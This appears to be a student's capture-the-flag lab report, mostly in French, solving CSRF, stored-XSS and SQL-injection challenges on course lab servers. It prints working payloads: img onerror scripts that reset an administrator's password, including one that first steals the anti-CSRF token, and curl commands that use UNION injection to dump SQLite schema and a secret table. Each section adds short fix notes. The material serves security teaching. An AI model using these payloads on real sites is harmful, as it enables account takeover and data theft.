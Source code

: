 # Lab 1

## CSRF Simple

### 1. Quelle fonctionnalité du site, potentiellement vulnérable à une faille CSRF, pourriez-vous exploiter pour voler le compte administrateur ?

The password change functionality is vulnerable to CSRF and can be exploited to steal the admin account.

```javascript
fetch("http://basic.csrf.slh.cyfr.ch/profile/nathan.rayburn", {
    headers: {
        'Content-Type': 'application/x-www-form-urlencoded'
    },
    "body": "password=test",
    "method": "POST",
});
```

### 2. Proposez une requête qui vous permettra de prendre le contrôle du compte admin, si elle était exécutée par l’administrateur

Un injection pourrait se faire à travers le compte d'administrateur lorsqu'il reçoit un message à travers l'application web. 

```javascript
fetch("http://basic.csrf.slh.cyfr.ch/profile/nathan.rayburn_admin", {
    headers: {
        'Content-Type': 'application/x-www-form-urlencoded'
    },
    "body": "password=hackerspassword",
    "method": "POST",
});
```

### 3. Écrivez une payload JavaScript qui exécute la requête

```html
<img src='invalid.jpg' onerror="
  fetch('/profile/nathan.rayburn_admin', {
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded'
    },
    body: 'password=test',
    method: 'POST'
  })
  .then(response => {
    if (response.ok) {
      alert('Fetch request was successful!');
    } else {
      alert('Fetch request failed with status: ' + response.status);
    }
  })
  .catch(error => alert('Fetch error: ' + error));
">
```

### 4. Quelle fonctionnalité du site, potentiellement vulnérable à une faille Stored XSS, pourriez-vous exploiter pour faire exécuter votre payload ?

La fonctionnalité de validation des entrées utilisateur (input validation) est vulnérable à une attaque Stored XSS.

### 5. Quel est le flag ? Comment avez-vous pu l'obtenir ?

On a pu récupérer le flag en utilisant l'injection via une balise HTML qui nous permet d'exécuter du `javascript` lorsque l'image charge. Comme l'image n'existe pas, le `onerror` s'exécute, là notre payload malveillant fait effet et on change le mot de passe de l'administateur à ce que l'on souhaite.


```html
<img src='invalid.jpg' onerror="
  fetch('/profile/nathan.rayburn_admin', {
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded'
    },
    body: 'password=test',
    method: 'POST'
  })
  .then(response => {
    if (response.ok) {
      alert('Fetch request was successful!');
    } else {
      alert('Fetch request failed with status: ' + response.status);
    }
  })
  .catch(error => alert('Fetch error: ' + error));
">
```

```bash
Congratulation! Your flag is: 8YeeieGoK/aDoTwo
```

### 6. Comment corrigeriez-vous la vulnérabilité ?

Pour corriger la vulnérabilité, il est nécessaire de mettre en place un mécanisme de protection contre les attaques CSRF (comme l'utilisation de jetons CSRF) et de valider correctement les entrées pour éviter les injections de code.

---

## CSRF Avancée

### 1. Qu’est-ce qu’un jeton anti-CSRF, comment fonctionne-t-il ?

Un jeton anti-CSRF est une valeur unique et aléatoire qui est envoyée avec chaque requête. Il est vérifié côté serveur pour s'assurer que la requête provient d'une session utilisateur authentifiée et non d'une attaque CSRF.

### 2. Comment déterminer si le formulaire est protégé par un jeton anti-CSRF ?

Un formulaire est protégé par un jeton CSRF si un champ caché contenant le jeton est présent dans le formulaire, et ce jeton est vérifié par le serveur lorsqu'une requête est soumise.

### 3. Le site est également vulnérable à une attaque XSS. Quel est le flag du challenge ? Décrivez l’attaque.

L'attaque XSS est déclenchée en injectant du code JavaScript malveillant, qui exécute une requête pour récupérer un jeton CSRF puis modifie les données sensibles.

```html
<img src='invalid.jpg' onerror="
  fetch('/profile/nathan.rayburn_admin', { method: 'GET' })
    .then(response => response.text())
    .then(html => {
      const parser = new DOMParser();
      const doc = parser.parseFromString(html, 'text/html');
      const csrfToken = doc.querySelector('#_csrf').value;
      
      return fetch('/profile/nathan.rayburn_admin', {
        headers: {
          'Content-Type': 'application/x-www-form-urlencoded'
        },
        body: `_csrf=${csrfToken}&password=test`,
        method: 'POST'
      });
    })
    .then(response => {
      if (response.ok) {
        alert('Password change request was successful!');
      } else {
        alert('Password change request failed with status: ' + response.status);
      }
    })
    .catch(error => alert('Fetch error: ' + error));
">
```

```bash
Congratulation! Your flag is: wMQf78jUXavuMdp1
```

### 4. Comment corrigeriez-vous la vulnérabilité ?

Pour corriger cette vulnérabilité, il est recommandé de valider et d'échapper toutes les entrées utilisateur avant de les afficher, afin de prévenir les attaques XSS.

---

## Injection SQL

### 1. Quelle partie du service est vulnérable à une injection SQL ?

La fonctionnalité qui permet de récupérer des données en fonction de l'ID dans la base de données est vulnérable à une injection SQL.

```bash
curl 'http://sql.slh.cyfr.ch/flowers' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-US,en;q=0.9,de-DE;q=0.8,de;q=0.7,fr;q=0.6' \
  -H 'Connection: keep-alive' \
  -H 'Content-Type: application/json' \
  -H 'DNT: 1' \
  -H 'Origin: http://sql.slh.cyfr.ch' \
  -H 'Referer: http://sql.slh.cyfr.ch/' \
  -H 'User-Agent: Mozilla/5.0' \
  --data-raw '{"id":"4"}' \
  --insecure
```

### 2. Le serveur implémente une forme insuffisante de validation des entrées. Expliquez pourquoi c’est insuffisant.

Le serveur ne valide pas correctement les entrées, permettant ainsi d'injecter des requêtes SQL malveillantes. Cela peut entraîner une fuite de données ou une modification non autorisée des données.

### 3. Quel est le flag ? Comment avez-vous procédé pour l’obtenir ?

Le flag a été obtenu en exploitant une injection SQL pour extraire des données sensibles depuis une table cachée dans la base de données.

J'ai pu trouver qu'on peut injecter du SQL en utilisant des commentaires pour séparer les commandes. On connait la table `flowers` et on aimerait trouver un `UNION` avec une autre table existante qui >= de colonnes.


En recherchant, on a trouvé que c'était du `SQLite` et donc on a regardé les tables par défaut dans la documentation.


```bash
curl 'http://sql.slh.cyfr.ch/flowers' \
  -H 'Accept: */*' \
  -H 'Content-Type: application/json' \
  --data-raw '{"id":"1/**/UNION/**/SELECT/**/type,/**/name,/**/tbl_name,/**/sql/**/FROM/**/sqlite_master/**/"}' \
  --insecure
```

Output
```bash
[[1,"Rose","Red",5],["index","sqlite_autoindex_super_secret_stuff_1","super_secret_stuff",null],["table","flowers","flowers","CREATE TABLE flowers (\n            id INTEGER PRIMARY KEY,\n            name TEXT,\n            color TEXT,\n            petals INTEGER\n        )"],["table","super_secret_stuff","super_secret_stuff","CREATE TABLE super_secret_stuff (name TEXT PRIMARY KEY, value TEXT)"]]
```

On trouve une table `super_secret_stuff`

```bash
curl 'http://sql.slh.cyfr.ch/flowers' \
  -H 'Accept: */*' \
  -H 'Content-Type: application/json' \
  --data-raw '{"id":"1/**/UNION/**/SELECT/**/name,/**/value,/**/NULL,/**/NULL/**/FROM/**/super_secret_stuff"}' \
  --insecure
```

```bash
[[1,"Rose","Red",5],["flag","SLH25{D0N7_P4r53_5Q1_M4NU411Y}",null,null]]
```

### 4. Quel est le DBMS utilisé ? Auriez-vous procédé différemment si le DBMS avait été MySQL ou MariaDB ?

Le DBMS utilisé est SQLite, ce qui est révélé par les métadonnées dans la table `sqlite_master`. Si le DBMS avait été MySQL ou MariaDB, l'approche aurait pu être similaire, mais les différences syntaxiques des injections SQL auraient dû être prises en compte.
